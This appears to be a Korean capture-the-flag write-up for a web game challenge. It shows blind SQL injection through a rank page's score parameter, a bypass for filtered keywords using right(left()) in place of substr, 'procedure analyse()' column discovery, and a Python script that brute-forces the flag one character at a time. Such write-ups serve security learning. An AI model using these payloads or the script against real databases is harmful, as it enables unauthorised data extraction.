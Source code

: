 # 문제

- 게임이 가능한 메인페이지와
- 마우스 움직이면 점수 올라감
  - 게임오버도 됨
  - 게임오버시 insert를 위한 request 전송
  - 중요하진 않다.
- rank 페이지가 있다.
  - get 인자로 score를 넘겨줘서, 이 값을 수정하여 원하는 스코어의 플레이어 정보 얻을 수 있음.
    - sql인젝션 가능
  - insert 될 때 어떤 값이 insert되는지 나와있음
    - id, score, flag
    - flag값을 알아내는것이 목표

#  풀이

- 가능한 키워드 들을 뽑아낸다.

  - 안되는게 별로 없어서 안되는걸 뽑아낸다.
    - `select`
    - `substr`
    - `single/double quota`

- 블라인드 인젝션을 시도하여 플래그값을 얻어내자

  - flag가 담긴 속성의 이름을 확인

    - `limit 2,1 procedure analyse()`

  - 알아낸 속성값을 비교루틴으로 플래그값 확인

    - `or right(left(password_column,1),1)=0x40...`

  - 전체 코드 in python

    ```python
    keys = 'abcdefghijklnmopqrstuvxyzABCDEFGHIJKLNMOPQRSTUVXYZ1234567890!@#*$^&()-[]{}=+_?'
    
    
    flags = ''
    flag_find = 0
    while True:
        for x in keys:
            param = '1 or right(left(p4ssw0rd_1123581321, {0}), 1)={1}'.format(len(flags)+1, hex(ord(x)))
            print param
            res = requests.get(url+page+param, cookies=cookies)
            if res.text.find('id : her0gyu') != -1:
                print 'founded...'
                print 'char: ' + x
                flags += x
                print 'flags: ' + flags
                flag_find = 1
                break
                
        if len(flags) == 31: #위의 쿼리에서는 left가 사용되어서 길이를 초과하면 루프를 빠져나가도록 해줘야 한다.
            break
        if flag_find == 0:
            break
    
    print '-----------------'
    print '-----------------'
    print '-----------------'
print 'founded flags successfully'
    print 'flags: ' + flags
    ```
    
    

# 알게된 것

### substr 우회

- `right(left(컬럼명, 1), 1)`
- 아주 유용하구만